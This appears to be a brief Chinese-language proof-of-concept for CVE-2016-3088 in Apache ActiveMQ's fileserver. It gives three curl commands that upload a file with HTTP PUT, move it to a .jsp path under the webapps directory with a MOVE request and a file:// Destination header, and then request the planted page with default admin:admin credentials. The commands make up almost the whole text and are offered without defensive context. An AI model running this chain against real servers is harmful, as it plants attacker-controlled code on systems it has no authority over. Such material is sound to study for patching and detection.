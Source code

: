 ### CVE-2016-3088 - PUT + MOVE file:// 漏洞

Poc

```
上传文件
curl -vv http://172.17.0.2:8161/fileserver/123.txt -XPUT --data @123

改名，需要知道绝对路径
curl -vv -X MOVE --header 'Destination: file:///activemq/webapps/123.jsp' 'http://172.17.0.2:8161/fileserver/123.txt'

访问
curl --user admin:admin 'http://172.17.0.2:8161/123.jsp'
```


